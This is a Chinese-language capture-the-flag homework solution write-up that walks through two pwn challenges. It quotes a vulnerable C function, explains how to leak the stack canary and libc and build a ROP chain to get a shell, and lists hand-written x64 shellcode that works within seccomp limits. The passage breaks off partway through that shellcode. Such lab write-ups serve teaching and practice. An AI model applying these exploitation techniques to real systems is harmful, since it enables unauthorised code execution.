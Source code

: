 那在拿到很多錢之後就能把商店所有東西都買齊，接著只要開一次直播就有5千萬粉絲就能使用`set_fan_name`的功能
```c=
void set_fan_name()
{
    if (fans >= 10000000 && stickers >= 200)
    {
        char buf[0x20];
        char y = '\0';

        while (1)
        {
            puts("Enter your fans name");
            write(1, "> ", 2);
            read(0, buf, (fans / 400000));
            printf("Set fans name to %s (Y/N)\n", buf);
            y = getchar();
            if (y == 'Y' || y == 'y')
            {
                break;
            }
        }

        strcpy(fan_name, buf);
        puts("Set fans name success");
    }
    else
    {
        puts("Only who has fans over 10M and stickers over 200 can set fans name");
    }
}
```
由於這邊fans數量已經很大所以除以400000之後會有overflow而且這邊可以無限制的讀取跟寫入，這時可先觀察stack上的東西有canary有libc的位置該有的都有了，所以可以在這邊把所有東西都leak出來
![](https://i.imgur.com/HiZLIaF.png)

當成功leak出canary跟libc base address之後因為overflow的部分可以覆蓋到return address甚至更後面所以直接在這邊疊rop chain就可以get shell

[exploit](/HW1_TA_solution/debut/exploit.py)

## pekopeko
### 考點
1. shellcode
2. seccomp
### exploit
這題內容跟`peko`那題幾乎相同一樣是需要手寫shellcode，但是這題有上了seccomp限制能夠使用的syscall
![](https://i.imgur.com/MGb5dSP.png)

用`seccomp-tools`可以看到限制只能使用x64的syscall並且只有`read, open, exit, exit_group`四個syscall可以使用，所以不能直接使用`execve("/bin/sh")`來開shell
然後因為一開始給的長度只有64而已一定不夠用，所以就跟`peko`那題的做法一樣用`read`去寫入到隨便一個地方再跳進去執行
```=
\x90\x90\x90\xeb\x02\x87
\x49\x89\xD7                          mov r15, rdx
\x48\x31\xFF                          xor rdi,rdi
\xeb\x03\x90\x90\x87                  jmp
\x49\x83\xC7\x50                      add r15, 0x50
\x4C\x89\xFE                          mov rsi, r15
\xeb\x02\x90\x87                      jmp
\x48\xC7\xC2\xFF\xFF\x00\x00          mov rdx, 0xff
\xeb\x02\x90\x87                      jmp
\x48\x31\xC0                          xor rax,rax
```